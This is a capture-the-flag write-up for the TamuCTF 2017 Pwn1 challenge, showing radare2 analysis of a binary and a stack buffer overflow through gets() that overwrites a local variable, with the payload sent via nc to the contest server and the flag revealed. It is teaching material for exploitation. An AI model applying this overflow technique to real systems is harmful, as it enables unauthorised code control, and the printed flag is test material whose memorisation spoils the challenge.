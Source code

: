 # [TamuCTF 2017](https://ctf.tamu.edu/)
### Pwn1 - 50 Points

![Pwn1 Challenge Description](assets/1-pwn1_description.png)

We are told that there is a binary running remotely and its code is available to download. Lets download and open it with r2.

```bash
$ wget https://ctf.tamu.edu/files/7e968d03d9caa11a2f4f2909bd3cabc9/pwn1
$ r2 pwn1
```

Now that the binary is opened, we need to analyze its content.

```bash
[0xf7721ac0]> aaa		# Analyze
[0xf7721ac0]> afl		# List functions found
.
.
0x0804854b    4 103          sym.print_flag
0x080485b2    4 120          main
.
.
```

Interesting, there is **print_flag** function at `0x0804854b`. Lets see what's inside.

```bash
[0xf771eac0]> s sym.print_flag	# We move to beginning of print_flag function
[0x0804854b]> pdf				# print its code
```
![Pwn1 Open File Function](assets/2-pwn1_open_flag.png)


Because of the offsets `0x08048569` and `0x0804856e` we can deduce that the function opens a file called **flag.txt** and prints its content. Fantastic :v:, so we just need to know who will call **print_flag**. This can be figured out through the `axt` command of r2 which stands for "cross reference to" the actual function.

```bash
[0x0804854b]> axt
call 0x8048606 call sym.print_flag in main
```

Cool, so this function will be called from offset `0x8048606` **main**. Lets see whats inside it.

```bash
[0x0804854b]> s main
[0x080485b2]> pdf
```
![Pwn1 Condition](assets/3-pwn1_condition.png)

We see that **print_flag** will be called if the condition `local_ch == 0xca11ab1e` is not satisfied. But wait a moment, if we give a closer look to the assembly instrucctions we realized that the only variable we are supposed to edit is **local_27h** through the `gets` function:

![Pwn1 Gets Call](assets/4-pwn1_gets_call.png)

So what we need to do? As maybe you know, **gets** is an unsecure function, because it does not check how many characters it must copy in memory when you introduce them. Then if we input more characters than it is supposed store, we will be able to overwrite neighbor local variables!

How can we know the length of the string we must provide? By knowing where the variables are stored onto the stack

![Pwn1 Stack diagram](assets/5-pwn1_stack_view.png)

So finally, how many bytes do we need to start writting **local_ch**?
Easy!

`($ebp - 0x27) - ($ebp - 0xC) = 0x27 - 0xC = 0x1B = 27d` 27 Characters.

```bash
$ python -c 'print("A"*27 + "\x1E\xAB\x11\xCA")' | nc pwn.ctf.tamu.edu 4322
Enter the secret word:
How did you figure out my secret?!
gigem{T00_435Y}
```

Answer: gigem{T00_435Y}

Complete process:

<a href="https://asciinema.org/a/2juhmtxkdf7qrnzbury7rzzjc?autoplay=1"><img src="https://asciinema.org/a/2juhmtxkdf7qrnzbury7rzzjc.png" width="400"/></a>

### Tools used:

 * [radare2](https://github.com/radare/radare2) - To analyze the binary.
 * [draw.io](https://www.draw.io/) - To draw some graphics.
 * [asciinema](https://asciinema.org) - To record the session.